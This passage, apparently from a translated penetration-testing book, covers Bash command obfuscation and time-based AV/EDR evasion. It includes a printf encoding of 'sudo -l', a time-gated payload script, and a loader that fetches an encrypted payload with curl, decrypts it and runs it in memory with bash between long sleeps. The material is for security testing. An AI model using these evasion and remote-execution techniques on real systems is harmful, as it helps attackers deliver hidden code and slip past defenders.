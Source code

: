我们还可以使用 ASCII 十进制值，如这里所示：

```
 $ $(printf "\x$(printf '%x' 115)\x$(printf '%x' 117)\x$(printf '%x' 100)\x$(printf '%x' 111)") $(printf "\x$(printf '%x' 45)\x$(printf '%x' 108)")
```

这些方法中的每一种以不同的方式混淆**sudo -l**命令。这些技术可以结合使用或嵌套起来，以创造出更复杂的混淆。然而，重要的是要注意，现代安全解决方案通常能够检测到这些混淆尝试。这些方法在面对简单的模式匹配时更为有效，也被称为**基于签名的** **检测系统**。

在针对 EDR 系统测试这些混淆技术时，请观察每种方法如何影响检测率。一些 EDR 解决方案可能会检测到某些混淆技术，而忽略其他技术。这些信息对于理解被测试 EDR 系统的能力和局限性非常有价值。

我们将在下一节尝试更高级的技术。

# 使用 Bash 的高级规避策略

虽然基本的混淆技术可以有效，但为了绕过高级安全措施，通常需要更复杂的规避策略。本节将探讨使用 Bash 的高级规避方法。

**基于时间的规避**涉及根据特定的时间条件执行代码，使得安全解决方案更难检测到恶意活动。例如，我已经多次通过在脚本或可执行文件中对载荷进行编码或加密，并插入代码让它在解码或解密并运行载荷之前睡眠一段时间，从而绕过 AV。AV 和 EDR 供应商不想因为占用宝贵的系统资源或让系统变慢而使客户不满。因此，有时只需要简单的暂停几分钟，再执行恶意活动，就足够了。

提示

AV 和 EDR 供应商已经开始意识到简单的睡眠语句的使用。通常需要使用比调用**sleep()**函数更复杂的技术，例如在检查经过了多少时间之前执行一些随机任务。

以下脚本示例避免使用 sleep 语句，而是通过执行无害活动和检查以确保时间在凌晨 1 点到 3 点之间，才执行有效载荷。它可以在本章的 GitHub 仓库中找到，文件名为 **ch14_sleep_1.sh**：

```
 #!/usr/bin/env bash
current_hour=$(date +%H)
if [ $current_hour -ge 1 ] && [ $current_hour -lt 3 ]; then
    # Execute payload only between 1 AM and 3 AM
    echo "Executing payload..." # Add your payload here
else
    # Perform benign activity
    echo "System check completed." fi
```

或者，你可以使用 **sleep 600** 命令在执行有效载荷之前让程序休眠 10 分钟。此外，你还可以通过从 HTTPS URL 获取有效载荷并在 sleep 语句后解码或解密它，来使检测变得更加困难，而不是将其存储在脚本中。大多数防病毒系统最初会扫描文件并找不到恶意内容的证据，然后不会检测到任何恶意活动，最终停止监控该文件。

在 EDR 环境下，如果检测到文件、进程或网络签名，简单的 sleep 语句可能不足以避开检测。在这种情况下，你可以通过将活动分散到多个命令或步骤中，并在每个步骤之间插入时间，来避免检测。在特定时间范围内发生的多个攻击链动作可能会触发高风险或严重警报。然而，如果在动作之间插入足够的时间，你可能能够避开检测，或者每个步骤可能会以较低的严重性警报，避免被防御者注意。

脚本已被修改，在每个步骤之间插入了时间。以下脚本可以在本章的 GitHub 仓库中找到，文件名为 **ch14_sleep_2.sh**：

```
 #!/usr/bin/env bash
sleep 600
# URL of the encrypted payload
PAYLOAD_URL="https://example.com/encrypted_payload.bin"
# Encryption key (in hexadecimal format)
KEY="5ebe2294ecd0e0f08eab7690d2a6ee69"
# Retrieve the encrypted payload and decrypt it in memory
decrypted_payload=$(curl -s "$PAYLOAD_URL" | openssl enc -aes-256-cbc -d -K "$KEY" -iv 0000000000000000 | base64)
sleep 7200
# Execute the decrypted payload from memory
bash <(echo "$decrypted_payload" | base64 -d)
```
